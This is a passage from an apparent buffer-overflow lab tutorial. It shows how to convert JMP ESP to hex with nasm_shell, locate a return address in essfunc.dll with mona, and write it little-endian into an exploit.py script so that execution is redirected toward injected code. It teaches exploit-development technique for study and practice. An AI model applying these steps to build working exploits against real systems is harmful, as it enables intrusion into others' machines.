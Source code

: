 ### Generating the Jump Code

- now we need to find the jump code, go to kali terminal and `locate nasm_shell`
- `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
- **essentially we're trying to convert Assembly language into hex code**
- `JMP ESP` and you'll see this output: `FFE4`
- back to mona: `!mona find -s "\xffe4" -m essfunc.dll`
- we're looking for the return addresses

![https://github.com/encryptedninja/command-center/raw/master/buffer_overflow/images/11-return-addresses.png](https://github.com/encryptedninja/command-center/raw/master/buffer_overflow/images/11-return-addresses.png)

- our found return address is **625011af**
- modify in exploit.py: `overflow = "A" * offset
- modify in exploit.py: `retn = "\xaf\x11\x50\x62"`
- so now we're gonna have the EIP via JUMP CODE and then the JUMP CODE will go into malicious code
- if you noticed it we are using the Jump Code in reverse because when we talk about x86 architecture we're doing something called **Little Endian** format. The x86 architecture actually stores the low order byte at the lowest address and the high order byte at the highest address, so we have to put our code in reverse order.
- this will throw the same error as before but it will also throw a jump point and we can use Immunity Debugger to catch this

### Catching The Jump Code

![https://github.com/encryptedninja/command-center/raw/master/buffer_overflow/images/12-catching-the-jump-code.png](https://github.com/encryptedninja/command-center/raw/master/buffer_overflow/images/12-catching-the-jump-code.png)
